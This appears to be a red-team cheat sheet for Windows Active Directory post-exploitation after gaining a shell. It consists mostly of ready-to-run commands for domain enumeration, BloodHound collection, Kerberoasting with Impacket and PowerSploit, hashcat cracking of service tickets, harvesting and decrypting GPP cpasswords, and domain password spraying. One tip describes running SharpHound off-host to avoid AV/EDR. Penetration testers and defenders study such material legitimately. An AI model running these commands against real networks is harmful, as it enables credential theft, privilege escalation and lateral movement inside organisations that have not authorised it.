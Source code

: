 # Basics on what to do upon getting shell/rce


**Note:** Try as much as possible to [Live off the land](https://lolbas-project.github.io/)
## Good blogs for these:
* [BHIS - Finding Buried Treasure SMB](https://www.blackhillsinfosec.com/finding-buried-treasure-in-server-message-block-smb/)

___

## Just basic stuff

```batch
whoami /all
hostname
ipconfig /all
systeminfo
gpresult /R 
dir
tree /f /a
tasklist /V
net user
net user /domain
net user <username>
net user <username> /domain
net localgroup
net localgroup administrators
net groups /domain
net group "<group>" /domain
net group "domain admins" /domain
klist
```
___
## NLTest[^1]
       
```batch
nltest /dclist:<domain>
nltest /dsgetdc:<domain>
nltest /domain_trusts /all_trusts
```
___
## Powershell Enumeration[^1]

```powershell        
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()
([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', '<domain>')))).GetAllTrustRelationships()
```
___ 

## [Dumping credentials](./Post_Exploitation.html#dumping-credentials1)
___
## Bloodhound (Sharphound)[^2] 

1. On local machine  (~Kali)


```batch
git clone https://github.com/fox-it/BloodHound.py.git #Bloodhound.py does not have all the features compared to the original Sharphound ingestors
cd BloodHound.py/ && pip install .
bloodhound-python -d <domain> -u <username> -p <password> -gc <domain_controller> -c all

sudo apt install neo4j bloodhound
# Access neo4j and change the neo4j/neo4j default credentials.
# While neo4j is still running, run bloodhound
bloodhound
```

1. Sharphound Officialy supported ingestors [^3][^4]
   * Running the official/supported Sharphound Collectors collects more information [
       * although Bloodhound.py is quick and good for most cases
   * Runas
       * If logged in on a local user account but have domain user credentials, then on the command-line
       * This works also to get SharpHound to work and ingest data even if your own Windows VM is not part of the Domain.
           * This bypasses the need to run SharpHound ps1 on the host itself with AVs/ERDs
       ```powershell
       C:\> runas /netonly /user:<DOMAIN>\<username> powershell.exe

       # then on the spawned powershell
       Import-Module .\SharpHound.ps1
       Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV -NoSaveCache
       ```
   * Run after sharphound for some nice statistics
       * [Bloodhound Quickwin](https://github.com/kaluche/bloodhound-quickwin)   

___
## General Attack methods
* Methods [^5][^6]
     * Golden Ticket
         * Requires full domain compromise.
         * Used for persistenceand pivoting
     * Kerberoasting
         * Requires access as any user. 
         * Use to escalateand pivot
     * Silver Ticket
         * Requires service hash.
         * Use for persistenceand escalation
     * Pass-the-Ticket
         * Requires access as user.
         * Use to pivot
     * Over-Pass-the-Hash
         * Requires access as user.
         * Use to pivot
___

## Kerberoasting
1. From Linux [^1][^7]
    * Beware of time difference of the attacking machine (Kali) and the targeted Domain Controller
    ```bash
    GetUserSPNs.py -debug -request -outputfile TGS_file.txt -dc-ip <DC_IP_Address> <FQDN>/<username>
    ```

1. From Windows
    * [PowerSploit](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
        ```powershell
        Invoke-Kerberoast -Domain domain.com -OutputFormat hashcat
        ```
        * Getting SPN ticekts of from an external external forest
            * Works if there is trust towards the domain you are in
            ```powershell
            Get-DomainSPNTicket <SERVICE>/DC01.domain-external.com@domain-external.com
            ```


[Password Cracking](../../Password_Cracking/Hashcat_general_cheatsheet.html)
    * Refer to [m0chan's blog](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html)
    ```batch
    hashcat64.exe -a 3 -m 13100 SPN.hash /wordlists/rockyou.txt
    ```

___

## Gathering Windows GPP passwords[^8]

1. On target machine logged-on with a regular domain account
    ```batch
    findstr /S cpassword \\<domain_controller>\sysvol\*.xml
    ```
1. On local machine (~Kali)
    ```bash
    gpp-decrypt <cpassword_value>
    ```

___

## ADFind[^9]
```batch
adfind.exe -f objectclass=trusteddomain
adfind.exe -sc trustdmp
```

---
## ADRecon[^10]
```powershell
# On your own Windows VM after "runas" command
.\ADRecon.ps1 -Method LDAP -DomainControler dc01.acme.local -Credential ACME\user01
```

---
## Domain Password Spraying
### Dafthack's DomainPasswordSpray[^11]
* Retrieves the list of domain users, sprays and attempts to detect lockout threshold of a user and stops spraying
```powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Spring2017
```

### Find interesting Domain Share Files[^12]
```powershell
Find-InterestingDomainShareFile
```



[^1]: [ired.team](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)
[^2]: [hausec](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)
[^3]: [Github - Bloodhound](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors)
[^4]: [ReadTheDocs - Bloodhound](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)
[^5]: [Red Siege](https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf)
[^6]: [Orange Cyberdefense](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/pentest_ad.png)
[^7]: [Tarlogic Security](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
[^8]: [Pure Security](https://pure.security/dumping-windows-credentials/)
[^9]: [Redcanary](https://redcanary.com/threat-detection-report/techniques/domain-trust-discovery/)
[^10]: [Github - ADRecon](https://github.com/adrecon/ADRecon)
[^11]: [Guthub - DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
[^12]: [Readthedocs - Powersploit](https://powersploit.readthedocs.io/en/latest/Recon/Find-InterestingDomainShareFile/)
